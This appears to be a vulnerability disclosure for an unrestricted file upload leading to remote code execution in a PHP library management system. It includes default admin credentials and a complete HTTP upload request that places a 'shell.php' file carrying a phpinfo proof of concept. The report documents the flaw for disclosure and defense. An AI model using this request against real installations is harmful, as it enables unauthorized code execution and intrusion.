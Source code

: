 # Library Management System v1.0 by kingbhob02 has arbitrary code execution (RCE)

BUG_Author: z1pwn

Login account: admin/admin (Super Admin account)

Vulnerability url: ip/LMS/card/index.php

vendors: https://www.sourcecodester.com/php/15434/library-management-system-qr-code-attendance-and-auto-generate-library-card.html

Loophole location: There is an arbitrary file upload vulnerability (RCE) in the file upload point in the add card function in the card module.

Request package for file upload：

```sql
POST /LMS/card/index.php HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/LMS/card/index.php
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=7v8p4p3goshl3b4fkncu3bh9ui
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------66472804728953
Content-Length: 1010

-----------------------------66472804728953
Content-Disposition: form-data; name="name"

2
-----------------------------66472804728953
Content-Disposition: form-data; name="grade"

Education
-----------------------------66472804728953
Content-Disposition: form-data; name="dob"

Staff
-----------------------------66472804728953
Content-Disposition: form-data; name="address"

2
-----------------------------66472804728953
Content-Disposition: form-data; name="email"

2
-----------------------------66472804728953
Content-Disposition: form-data; name="exp_date"

2
-----------------------------66472804728953
Content-Disposition: form-data; name="id_no"

2
-----------------------------66472804728953
Content-Disposition: form-data; name="phone"

2
-----------------------------66472804728953
Content-Disposition: form-data; name="image"; filename="shell.php"
Content-Type: application/octet-stream

JFJF
<?php phpinfo();?>
-----------------------------66472804728953--
```

The files will be uploaded to this directory LMS\card\assets\uploads

![image](https://user-images.githubusercontent.com/49387143/180378259-21567886-60b8-43e7-8511-14a9592cfe9c.png)

We visited the directory of the file in the browser and found that the code had been executed

![image](https://user-images.githubusercontent.com/49387143/180378390-37501c1c-e1ee-4da3-893d-1bd1618ce078.png)
